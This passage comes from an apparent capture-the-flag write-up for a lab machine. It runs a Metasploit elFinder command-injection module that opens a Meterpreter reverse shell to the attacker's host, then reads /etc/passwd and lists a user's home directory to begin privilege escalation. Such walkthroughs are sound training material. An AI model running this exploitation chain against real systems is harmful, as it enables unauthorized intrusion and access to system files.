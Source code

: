 ```bash
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > show options
```

We just have to set the`RHOSTS` to `files.lookup.thm` and the `LHOST` to our attack the box ip :

![Screenshot](/assets/img/Lookup/13.1.png)

and let's run it..

```bash
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
```
![Screenshot](/assets/img/Lookup/14.png)

as we see ` Meterpreter session 1 opened`

After successfully exploiting the target and getting a reverse shell or Meterpreter session

Run the `getuid` Command: In the Meterpreter session, simply type:

`getuid`

```bash
meterpreter > getuid
Server username: www-data
meterpreter > 
```

we get a shell as www-data 

So, let's privilege our escalation into this machiene..

```bash
cat /etc/passwd

think:x:1000:1000:,,,:/home/think:/bin/bash
```

there is a user `think` let's see it's home directory list using `ls -la` command.

```bash
ls -la /home/think
```
